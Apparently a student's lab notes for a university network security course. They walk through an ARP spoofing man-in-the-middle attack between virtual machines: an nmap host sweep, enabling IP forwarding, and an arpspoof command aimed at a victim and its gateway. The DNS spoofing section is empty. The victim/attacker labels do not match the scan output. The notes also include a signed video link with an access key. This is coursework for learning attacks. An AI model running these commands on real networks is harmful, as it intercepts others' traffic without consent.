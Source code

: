 # A&D of Network Security - Lab 4(ARP & DNS SPOOFING)
###### tags: `Practicum of A&D of NS` `NTU`

## Background
[ARP Spoofing at `1:15:00`](https://files-1.dlc.ntu.edu.tw/cool-video/202303/a1c84712-d036-49d9-b60b-4ea89ebe702e/transcoded.mp4?AWSAccessKeyId=C6ueMrUe5JyPkWQJAyKp&Expires=1682962317&Signature=Db1rA6ZBWnnky%2BAS4KQWIQ%2BFmZQ%3D)

## ARP SPOOFING
1. Setting 2 VMs' network interface as Bridged adapter
    :::danger
    You supposed to use your own network instead of public network
    :::
2. Checking IP
![](https://i.imgur.com/V1CTmtr.png)

    ![](https://i.imgur.com/i6RUqmM.png)
And check the victim gateway by `nmap`
    ```bash!
    $ sudo nmap -sP 192.168.43.0/24
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-19 10:46 EDT
    Nmap scan report for DESKTOP-D0UCTM3 (192.168.43.56)
    Host is up (0.00020s latency).
    MAC Address: 68:54:5A:DC:03:57 (Intel Corporate)
    Nmap scan report for 192.168.43.66
    Host is up (0.010s latency).
    MAC Address: D4:38:9C:87:2F:C6 (Sony)
    Nmap scan report for kali (192.168.43.222)
    Host is up (0.00040s latency).
    MAC Address: 08:00:27:B1:9D:67 (Oracle VirtualBox virtual NIC)
    Nmap scan report for 192.168.43.78
    Host is up.
    Nmap done: 256 IP addresses (4 hosts up) scanned in 6.13 seconds
    ```
    :::info
    Victim VM $\to$ `192.168.43.222` / MAC $\to$ `08:00:27:F7:12:7A`
    Attacker VM $\to$ `192.168.43.78` / MAC $\to$ `08:00:27:B1:9D:67`
    Default Gateway $\to$ `192.168.43.66`
    :::
    

3. Open NAT Port Forwarding
* In Attacker VM
    ```bash!
    $ sudo su
    $ echo 1 > /proc/sys/net/ipv4/ip_forward
    $ exit
    $ cat /proc/sys/net/ipv4/ip_forward
    1
    ```
* In Victim VM
    ```bash
    $ arp -a
    ? (192.168.43.78) at 08:00:27:f7:12:7a [ether] on eth0
    DESKTOP-D0UCTM3 (192.168.43.56) at 68:54:5a:dc:03:57 [ether] on eth0
    DESKTOP-D0UCTM3 (192.168.43.56) at 68:54:5a:dc:03:57 [ether] on eth0
    ```
4. Start to attack
    ```bash
    $ sudo arpspoof -i eth0 -t 192.168.43.222 192.168.43.66
    // sudo arpspoof -i {網卡介面} -t {攻擊目標 IP} {Gateway IP}
    ```
5. Result
![](https://i.imgur.com/46xo2IZ.png)

    ![](https://i.imgur.com/2CG3iER.png)

    ![](https://i.imgur.com/qkkrFfy.png)


### Problem & Solved
:::info
If you can not install `dsniff`, you may update and upgrade the whole system with command `sudo apt-get update; sudo apt-get upgrade`(It may take lot's of time to finish the work)
:::

## DNS SPOOFING
